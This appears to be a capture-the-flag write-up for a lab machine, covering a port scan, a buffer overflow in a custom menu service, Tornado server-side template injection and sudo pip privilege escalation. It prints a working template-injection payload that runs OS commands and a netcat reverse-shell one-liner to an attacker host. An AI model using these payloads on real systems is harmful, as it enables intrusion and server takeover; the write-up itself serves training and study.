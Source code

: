 # NoNameCTF

A relatively simple boot2root.

A scan revealed:

```
PORT     STATE SERVICE       REASON  VERSION
22/tcp   open  ssh           syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http          syn-ack Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  EtherNetIP-1? syn-ack
9090/tcp open  http          syn-ack Tornado httpd 6.0.3
```

On 80 was a simple static page, that contained in its source:

```
<html>
<head></head>
<body>
<!--char buffer[250]; -->
<!--A*1000-->
        checkme!
</body>
</html>
```

Some indication of a buffer overflow? On port 9090, the 'Tornado' framework was running, but just returning an error on the root index:

```
Traceback (most recent call last):
  File "/home/zeldris/.local/lib/python3.5/site-packages/tornado/web.py", line 1676, in _execute
    result = self.prepare()
  File "/home/zeldris/.local/lib/python3.5/site-packages/tornado/web.py", line 2431, in prepare
    raise HTTPError(self._status_code)
tornado.web.HTTPError: HTTP 404: Not Found
```

Its annoying when CTFs do this, as its initially unclear if this is intended or its just broken. In this instance, it was the former.

So with the two websites not going anywhere, I examined port 2222. It wasn't ssh - by going to it with `nc <ip> 2222`, it would present an option menu:

```
Welcome to the NoNameCTF!
Choose an action:
> regiser: 1
> login: 2
> get_secret_directory: 3
> store_your_buffer: 4
```

By registering and logging in, I could then use the 'store_your_buffer' option. This looked like a buffer overflow, albeit a very uncomplicated one. All that was required it seemed (and later confirmed) was to overflow the buffer - doing so would then cause the problem to return a directory path on the get_secret_directory option. So I shoved 10000 chars in there (generated via `cyclic 10000`) and the get_secret_directory option returned a `/<secret guid-like path>/`.

On that page was some generic text from the tryhackme website, and in the source a hint:

```
<html>
 <head><title> Hello</title></head>
 <body><section class="inside"><h2>Cyber Security training made easy</h2></br>Hello zeldris
 <p class='m0'>TryHackMe takes the pain out of learning and teaching Cybersecurity. Our platform makes it a comfortable experience to learn by designing prebuilt courses which include virtual machines (VM) hosted in the cloud ready to be deployed. This avoids the hassle of downloading and configuring VM's. Our platform is perfect for CTFs, Workshops, Assessments or Training.</p></section></section></div><div class="container main pb"><section class="row"><div class="col-md-4 green-hover"><h2><i class="fas fa-spider"></i> Hack Instantly</h2><p>Learn, practice and complete! Get hands on and practise your skills in a real-world environment by completing fun and difficult tasks. You can deploy VMs, which will give an IP address instantly and away you go.</p></div><div class="col-md-4 green-hover"><h2><i class="fas fa-door-closed"></i> Rooms</h2><p>Rooms are virtual areas dedicated to particular cyber security topics. For example, a room called "Hacking the Web" could be dedicated to web application vulnerabilities. </p></div><div class="col-md-4 green-hover"><h2><i class="fab fa-fort-awesome"></i> Tasks</h2><p>Each room has tasks that contain questions and hints, a custom leaderboard and chat area. Whilst you're hacking away, you can discuss hacking techniques or request help from others.</p><!-- ?hackme= --></div></section> 
</body>
</html>
```

By putting `?hackme=` on the url, I could get it to show up after 'Hello'. Given this room is listed with SSTI mentioned, I tried `{{2*4}}` and got 'Hello 8' showing up.

Tornado has its own template language, so I used this article to get an idea on how to explicit this: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/. I found this would work: `?hackme={%%20import%20os%20%}{{%20os.popen("whoami").read()%20}}`, revealing the user was 'zeldris'.

Using `whereis nc` I found the server had 'nc.traditional', so I used the simple `nc -e /bin/bash <attack ip> 4444` and a nc listener on my attack box to get a reverse shell as zeldris and the **user flag**.

`sudo -l` revealed:

```
User zeldris may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root : root) NOPASSWD: /usr/bin/pip install *
```

pip was listed on gtfo bins here: https://gtfobins.github.io/gtfobins/pip/#sudo

I used this technique to quickly achieve root and get the **root flag**.

